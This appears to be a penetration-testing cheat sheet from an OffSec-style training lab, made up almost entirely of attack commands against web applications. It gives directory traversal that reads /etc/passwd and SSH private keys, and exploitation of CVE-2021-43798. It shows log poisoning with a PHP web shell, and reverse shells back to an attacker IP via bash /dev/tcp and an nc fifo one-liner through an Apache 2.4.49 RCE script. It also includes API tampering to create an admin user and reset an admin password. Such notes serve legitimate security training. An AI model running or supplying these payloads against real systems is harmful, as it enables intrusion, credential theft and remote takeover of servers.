 # NMAP
fingerprinting
```
nmap -p80 -sV 192.168.241.51
nmap -p80 -sV --script=http-enum 192.168.241.51
```
# GOBUSTER
Directory brute forcing
```
gobuster dir -u 192.168.241.51 -w /usr/share/wordlists/dirb/common.txt -t 5
```
# APIs 
```
gobuster dir -u http://192.168.241.51:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```
pattern recognition file
```
{GOBUSTER}/v1
{GOBUSTER}/v2
{GOBUSTER}/v3
{GOBUSTER}/v4
{GOBUSTER}/v5
{GOBUSTER}/v1/admin
```
JSON manipulation
```
curl -i http://192.168.241.51:5002/users/v1/login
#json curl with password
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json' http://192.168.241:5002/users/v1/login
# new user as admin
curl -d '{"password":"lab","username":"offsec-admin","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.241:5002/users/v1/login
```
Steal Admin token
```
curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```
# XSS 

# Directory traversal
```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
```
```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```
Encoded Chars
```
curl http://192.168.249.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/passwords

curl --path-as-is http://192.168.249.16/cgi-bin/%2F/%2F/%2F/%2F/%2F/%2F/opt/install.txt

curl --path-as-is http://192.168.249.16:3000/public/plugins/alertlist/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/install.txt

```


## use their ssh key
```
vim dt_key
chmod 400 dt_key
ssh -i dt_key -p 2222 offsec@mountaindesserts.com

```
## CVE-2021-43798
```
curl --path-as-is http://192.168.249.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt

```

# LFI 
Check First
```
curl http://192.168.241.X/meteor/index.php?page=../../../../../../var/log/apache2/access.log
```
Inject into burp as user agent string in php
```
<?php echo system($_GET['cmd']); ?>
```
inject into GET
```
/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la

# Rev Shell 8080
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.212%2F8080%200%3E%261%22
# Windows type file
GET /meteor/index.php?page=../../../../../../../xampp/apache/logs/access.log&cmd=type%20hopefullynobodyfindsthisfilebecauseitssupersecret.txt
# execute php file
GET /meteor/index.php?page=../../../../../../opt/admin.bak.php

```
### apache 2.4.49 RCE
```
/50383.sh targets.txt /bin/sh "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.212 8080 >/tmp/f"
```


# PHP Wrappers
no encoding
```
curl http://192.168.187.16/meteor/index.php?page=php://filter/resource=/var/www/html/backup.php
```
Encoding
```
curl http://192.168.187.16/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php
```
Command
```
curl "http://192.168.187.16/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

```
encode our command
```
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==

curl "http://192.168.187.16/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=uname%20-a%0A"
```

# RFI 

# File Upload

# Command Injection


# Checklist
get application/version 
robots.txt
sitemap.xml
dirb 

